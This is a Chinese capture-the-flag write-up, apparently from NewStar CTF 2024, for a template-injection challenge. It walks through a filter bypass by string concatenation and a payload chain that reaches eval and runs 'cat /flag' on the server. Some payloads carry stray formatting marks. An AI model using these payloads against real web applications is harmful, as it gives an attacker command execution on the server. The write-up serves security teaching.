 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# 复读机

可以看到，输入什么就输出什么

输入`{{ '{'+'{ 7*7 }'+'}' }}`的时候 输出的结果是49 说明存在ssti注入

当输入

`{{ '{'+'{[].__class__}'+'}' }}`

发现bot显示不喜欢上课 说明class被过滤了 可以使用简单的拼接绕过

{{[]['__cl'+'ass__']}['__cl'+'ass__']}

得到list类

![简单的ssti](/assets/images/wp/2024/week2/fuduji_1.png)

后面就是基本的注入方法了

获取object类

{{()['__cl'+'ass__']['__base__']}}

{{()['__cl'+'ass__']['__base__']['__**subcl'+'asses__**']}}

![img](/assets/images/wp/2024/week2/fuduji_2.png)

找一个可以利用的类 这里选用 os._wrap_close

{{()['__cl'+'ass__']['__base__']['__**subcl'+'asses__**'][132]}}

![img](/assets/images/wp/2024/week2/fuduji_3.png)

然后就是拿到eval方法 命令执行就行

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]['__init__']['__globals__']['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

![img](/assets/images/wp/2024/week2/fuduji_4.png)

方法很多，大家可以自己试试
